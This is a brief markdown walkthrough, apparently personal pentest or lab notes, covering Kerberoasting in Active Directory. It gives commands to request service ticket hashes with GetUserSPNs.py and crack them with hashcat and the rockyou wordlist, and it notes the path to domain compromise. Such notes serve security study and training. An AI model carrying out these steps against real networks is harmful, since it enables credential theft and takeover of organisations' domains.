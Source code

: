 ## Kerberoasting Walkthrough 
- Get user SPNs: `sudo GetUserSPNs.py <doamin>/<username>:<password> -dc-ip <DC IP> -request

  ![image](https://github.com/user-attachments/assets/2ec6d710-cc19-4e33-99b7-eea8929409ae)

- Be careful with a last logon of never as it could be a honeypot
- Copy hash and paste into text file using `mousepad`
-  Crack it: `hashcat -m 13100 <hash> /usr/share/wordlists/rockyou.txt`

    ![image](https://github.com/user-attachments/assets/cfeeb420-6bcf-45ed-be2f-ccee6dfc5f6d)

- Since this is a domain admin, we could use this to compromise the domain
